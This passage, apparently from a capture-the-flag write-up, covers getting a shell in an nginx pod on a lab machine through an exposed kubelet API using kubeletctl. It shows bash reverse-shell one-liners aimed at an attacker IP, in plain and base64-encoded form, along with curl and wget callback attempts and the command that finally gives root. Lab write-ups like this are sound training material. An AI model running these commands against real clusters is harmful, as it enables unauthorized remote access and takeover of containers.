     
    
    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "which bash" -p nginx -c nginx
    /bin/bash
    

But it won’t do a `bash` reverse shell:

    
    
    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'" -p nginx -c nginx
    -i: -c: line 0: unexpected EOF while looking for matching `''
    -i: -c: line 1: syntax error: unexpected end of file
    command terminated with exit code 1
    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec 'bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"' -p nginx -c nginx
    -i: -c: line 0: unexpected EOF while looking for matching `"'
    -i: -c: line 1: syntax error: unexpected end of file
    command terminated with exit code 1
    

Thinking it might be bad characters, I tried encoded the reverse shell:

    
    
    oxdf@hacky$ echo "bash -i >& /dev/tcp/10.10.14.6/443 0>&1" | base64 -w0
    YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==
    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec 'echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==" | base64 -d | bash' -p nginx -c nginx
    "YmFzaCAtaSA JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==" | base64 -d | bash
    

It doesn’t seem to handle the pipes well.

Neither `curl` nor `wget` seem to be in the container:

    
    
    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "curl 10.10.14.6" -p nginx -c nginx
    OCI runtime exec failed: exec failed: container_linux.go:344: starting container process caused "exec: \"curl\": executable file not found in $PATH": unknown
    command terminated with exit code 126
    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "wget 10.10.14.6" -p nginx -c nginx
    OCI runtime exec failed: exec failed: container_linux.go:344: starting container process caused "exec: \"wget\": executable file not found in $PATH": unknown
    command terminated with exit code 126
    

`nc`, `python`, and `python3` aren’t either.

### Shell

_Update 15 Sept 2022: Big thanks to GhostNinja who pointed this out to me._

It turns out there’s a much simpler way to get a shell - just issue the `bash`
(or `sh`) command:

    
    
    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "/bin/bash" -p nginx -c nginx
    root@nginx:/# id
    uid=0(root) gid=0(root) groups=0(root)
    